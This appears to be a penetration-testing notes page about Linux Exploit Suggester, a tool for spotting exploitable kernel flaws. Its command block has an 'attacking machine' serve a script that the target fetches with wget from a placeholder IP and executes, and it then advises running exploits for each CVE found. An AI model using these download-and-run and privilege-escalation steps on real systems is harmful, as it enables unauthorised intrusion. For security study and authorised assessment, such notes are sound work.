 --- ---

<h2>General</h2>

Linux Exploitation Suggester (LES) is a tool that checks the operating system (OS) and version of a machine and suggests potential kernel vulnerabilities that could be exploited. LES is typically used by security professionals to assess the security of a system and identify weaknesses that need to be addressed.

---
<h2>Commands</h2>

```
# Attacking Machine
python3 -m http.server

# Target Machine
wget http://IP/Name.sh
chmod +x NAME.sh
./NAME.sh
```

- Check for exposure (Probability of success)

---> Search each CVE on google and run the exploit

---
<h2>Linux Exploit Suggester</h2>

**All Information** --->  https://github.com/mzet-/linux-exploit-suggester

<iframe src="https://github.com/mzet-/linux-exploit-suggester" width="100%" height="1300"></iframe>